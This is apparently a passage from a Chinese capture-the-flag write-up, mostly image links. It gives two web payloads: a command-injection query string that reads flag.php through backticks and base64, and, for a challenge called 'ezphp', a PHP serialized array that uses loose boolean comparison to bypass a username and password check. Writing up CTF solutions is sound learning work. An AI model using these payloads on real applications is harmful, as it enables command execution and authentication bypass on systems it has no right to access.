 ```
?a=echo `cat flag.php|base64`; 
```

![](img/7474ca08c97994dbd233f1e917055741.png)![](img/c610f23e5d5e1e3d1b8d3badf6241f3f.png)

### ezphp

网上几乎一模一样的题目，实验吧的，秒了
构造两个数组使bool值为真（true跟任意字符串都弱类型相等）

```
data=a:2:{s:8:"username";b:1;s:8:"password";b:1;} 
```

![](img/47df6700dd08520dedb075a678e69aff.png)
